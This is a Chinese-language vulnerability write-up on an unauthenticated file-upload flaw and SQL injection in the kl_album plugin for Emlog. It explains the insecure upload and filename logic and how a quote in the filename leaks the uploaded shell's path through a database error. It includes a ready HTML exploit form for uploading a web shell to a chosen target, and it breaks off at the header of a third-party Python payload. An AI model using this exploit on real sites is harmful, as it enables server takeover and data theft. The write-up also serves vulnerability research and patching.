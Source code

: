 从上面的代码中我们发现，对于之前传入的\$\_type这个变量在这个函数里根本就没有起到任何左右，函数中定义的\$imtype
=
array(\'jpg\',\'png\',\'jpeg\',\'gif\');，也不是用来验证后缀的，而是判断是否需要生成缩略图的，所以重点就是下面的内容了：

    $extension  = strtolower(substr(strrchr($filename, "."),1));
    $uppath = KL_UPLOADFILE_PATH . date("Ym") . "/";
    $fname = md5($filename) . date("YmdHis") . rand() .'.'. $extension;
    $attachpath = $uppath . $fname;
    ...
    ...
    ...
    if(@!move_uploaded_file($tmpfile ,$attachpath)){

这里我们可以发现上传的文件名是：

    $fname = md5($filename) . date("YmdHis") . rand() .'.'. $extension;

这里的意思是将原来的文件名的md5值+当前时间+rand随机数+后缀，md5值和时间基本上比较好确定，但是这个rand（）随机数一般都是0-65535之间，非常麻烦。

同时我们可以看到下面的代码，并没有把问卷名输出的地方，只是echo
\'kl\_album\_successed\';。难道，我们需要暴力破解shell名字？

我们返回kl\_album\_ajax\_do.php，可以发现上传的if语句中有如下代码：

    $result = $DB->query("INSERT INTO ".DB_PREFIX."kl_album(truename, filename, description, album, addtime, w, h) VALUES('{$_FILES['Filedata']['name']}', '{$upfname}', '".date('Y-m-d', time())."', {$album}, ".time().", {$photo_size['w']}, {$photo_size['h']})");

这里将\$\_FILES\[\'Filedata\'\]\[\'name\'\]直接插入数据库。这里另造成了一个SQL注入漏洞，当然既然有之前的getshell，这里的注入就有点当陪衬了。不过emlog在遇到SQL语句出错的情况下是会报错的。所以所以，这里我们正好用到这个特性，通过报错可以将\$upfname这个字段爆出来，这也就是我们上传成功的shell名字。如何报错？上传文件名里加个单引号即可。

### 漏洞复现

    <form id="exp" method="post" enctype="multipart/form-data">
    <p>target url > <input id="url" type="text" style="width: 300px"></p>
    <p>shell file > <input type="file" name="Filedata"></p>
    <input name="album" type="hidden" value="111111" >
    <p><input type="submit" value="GO!" οnclick="exp.action=url.value+'/content/plugins/kl_album/kl_album_ajax_do.php';"></p>
    </form>

保存为html，本地打开：

![](/Users/aresx/Documents/VulWiki/.resource/Emlog相册插件前台SQL注入+Getshell/media/rId28.png)

填入目标url，并选择要上传的shell。（如图，我这里是info\'.php，会令SQL出错）。点击GO!

之后可以发现出错了，可以发现文件名已经爆出来了：../content/plugins/kl\_album/upload/201411/38493d4468377f721357e9c64f93637d2014111211381611097.php访问可见shell：

![](/Users/aresx/Documents/VulWiki/.resource/Emlog相册插件前台SQL注入+Getshell/media/rId29.png)

这里给出独自等待的一份payload：

    #!/usr/bin/env python
    # -*- coding: gbk -*-
    # -*- coding: utf-8 -*-
    # Date: 2015/4/30
    # Created by 独自等待
    # 博客 http://www.waitalone.cn/